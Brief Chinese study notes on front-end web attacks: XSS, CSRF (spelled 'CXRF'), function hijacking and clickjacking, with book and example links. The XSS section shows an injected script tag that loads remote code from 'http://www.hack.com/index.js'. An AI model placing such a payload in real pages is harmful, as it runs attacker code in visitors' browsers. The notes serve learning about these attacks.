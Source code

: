 ## 大纲
* js代码加密，混淆，base64 
* XSS攻击
* CXRF攻击
* 界面操作劫持
* 挖掘XSS攻击的一些场景

## XSS攻击
主要是注入脚本，如论坛里面用户输入`<script>alert();</script>`，页面回显的时候如果没有处理js脚本，就可能造成攻击。angular的$sce就是用来处理XSS攻击的。`<script>$.getScript('http://www.hack.com/index.js');</script>`

## CXRF攻击
[栗子](http://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)

## 函数劫持
控制台改代码

## XSS与函数劫持
```
$.post();
```

## 界面操作劫持
[栗子](http://blog.csdn.net/c2iekqea/article/details/55684701)


## 书籍

[Web前端黑客技术揭秘](https://item.jd.com/12878817351.html)
[Web前端黑客技术揭秘(视频)](https://ke.qq.com/course/133640)

[白帽子讲Web安全](https://item.jd.com/11483966.html)
[白帽子讲Web扫描](https://item.jd.com/15503446687.html)
